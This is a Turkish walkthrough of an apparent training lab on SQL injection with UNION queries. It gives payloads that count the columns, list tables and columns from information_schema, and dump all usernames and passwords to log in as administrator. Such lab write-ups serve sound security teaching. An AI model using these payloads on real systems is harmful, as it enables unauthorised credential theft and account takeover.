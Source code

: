 Uygulamanın bir login fonksiyonu vardır ve veritabanı kullanıcı adlarını ve parolaları tutan bir tablo içerir. Bu tablonun adını ve içerdiği column'ları belirlemeniz, ardından tüm kullanıcıların kullanıcı adı ve parolalarını elde etmek için tablonun içeriğini almanız gerekir.

Laboratuvarı çözmek için administrator kullanıcısı olarak oturum açın.

1. Geri Dönen Column Sayısını ve Veri Türünü Belirleme

**Query**'nin kaç **column** döndürdüğünü ve hangi **column**'ların **text** veri içerdiğini belirleyin. **Query**'nin iki **column** döndürdüğünü ve ikisinin de **text** veri içerdiğini doğrulamak için aşağıdaki **payload**'ı **category** parametresine enjekte edin:

```
'+UNION+SELECT+'abc','def'--
```

![Pasted image 20250329195841.png](/img/user/resimler/Pasted%20image%2020250329195841.png)

2. Veritabanındaki Table'ları Listeleme

Veritabanındaki **table**'ları listelemek için şu **payload**'ı kullanın:

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

![Pasted image 20250329195908.png](/img/user/resimler/Pasted%20image%2020250329195908.png)

3. Kullanıcı Bilgilerini İçeren Table'ı Bulma

Veritabanında kullanıcı bilgilerini içeren **table**'ın adını belirleyin.

4. Kullanıcı Table'ındaki Column'ları Listeleme

Belirlenen **table** içindeki **column**'ları listelemek için şu **payload**'ı kullanın (**table_name** kısmını bulduğunuz isimle değiştirin):

```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```

`users_finwnz`

![Pasted image 20250329200158.png](/img/user/resimler/Pasted%20image%2020250329200158.png)

5. Kullanıcı Adlarını ve Şifrelerini Çekme

Kullanıcı adlarını ve şifreleri içeren **column** isimlerini belirleyin. Daha sonra aşağıdaki **payload**'ı kullanarak tüm kullanıcıların **username** ve **password** bilgilerini çekin (**table** ve **column** isimlerini değiştirmeyi unutmayın):

```
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```

![Pasted image 20250329200413.png](/img/user/resimler/Pasted%20image%2020250329200413.png)

6. Administrator Kullanıcısının Şifresini Bulma ve Giriş Yapma

![Pasted image 20250329200455.png](/img/user/resimler/Pasted%20image%2020250329200455.png)

---